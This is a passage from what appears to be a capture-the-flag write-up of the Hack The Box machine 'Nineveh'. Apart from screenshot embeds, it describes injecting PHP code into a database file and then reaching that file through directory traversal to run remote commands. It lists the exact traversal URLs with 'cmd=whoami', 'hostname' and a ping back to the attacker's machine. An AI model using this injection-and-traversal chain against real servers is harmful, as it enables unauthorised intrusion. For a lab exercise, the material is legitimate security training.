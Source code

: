 <br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I can access the resources on the victim machine, I will return to the other web service to succeed in compromising the system. I follow the steps of the exploit, in the database that I had already saved (with **.php** extension) I only have to create a table and then a field, in which I will inject a command in **PHP** format and **TEXT** type. After saving all the changes, I can access the database by exploiting the **Directory Path Traversal** vulnerability and thus execute commands remotely. I enumerate the system a bit and check the connectivity to my attacking machine with a trace sent with `ping` from the victim machine.

```bash
# https://nineveh.htb/db/index.php?switchdb=%2Fvar%2Ftmp%2Foldboy.php

# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/oldboy.php
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/oldboy.php&cmd=whoami
# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/oldboy.php&cmd=hostname

tcpdump -i tun0 icmp -n

# http://nineveh.htb/department/manage.php?notes=files/ninevehNotes/../../../../../../var/tmp/oldboy.php&cmd=ping%20-c%201%2010.10.14.22
```

<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

